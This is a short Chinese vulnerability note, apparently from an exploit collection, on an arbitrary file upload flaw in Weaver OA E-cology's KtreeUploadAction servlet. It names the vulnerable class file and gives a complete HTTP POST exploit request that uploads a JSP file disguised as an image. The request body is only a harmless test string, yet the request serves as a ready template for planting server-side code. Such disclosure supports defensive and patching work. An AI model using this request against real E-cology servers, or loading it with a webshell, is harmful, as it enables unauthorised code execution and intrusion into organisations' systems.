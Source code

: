 # 

# 泛微OA E-cology KtreeUploadAction 任意文件上传

## 漏洞描述

参考链接：

- [泛微e-cology任意文件上传(已修复)](https://mp.weixin.qq.com/s?__biz=MzkxMzIzNTU5Mg==&mid=2247483666&idx=1&sn=e70efe98c064e0f1df986e2b65c1a608&chksm=c1018af5f67603e39ce4d6e9375875e63e7b80633a1f99959f8d4652193ac3734765a99099ea&mpshare=1&scene=23&srcid=0414cqXy50udQOy19LYOMega&sharer_sharetime=1618332600979&sharer_shareid=d15208c7b27f111e2fe465f389ab6fac#rd)

## 漏洞影响

```
目前已修复
```

## 漏洞复现

定位文件：

`ecology\CLASSB~1\com\weaver\formmodel\apps\ktree\servlet\KtreeUploadAction.class`

exp：

```

POST /weaver/com.weaver.formmodel.apps.ktree.servlet.KtreeUploadAction?action=image HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:69.0) Gecko/20100101 Firefox/69.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: Secure; JSESSIONID=abc6xLBV7S2jvgm3CB50w; Secure; testBanCookie=test
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
Content-Type: multipart/form-data; boundary=--------1638451160
Content-Length: 171

----------1638451160
Content-Disposition: form-data; name="test"; filename="test.jsp"
Content-Type: image/jpeg

helloword
----------1638451160--
```


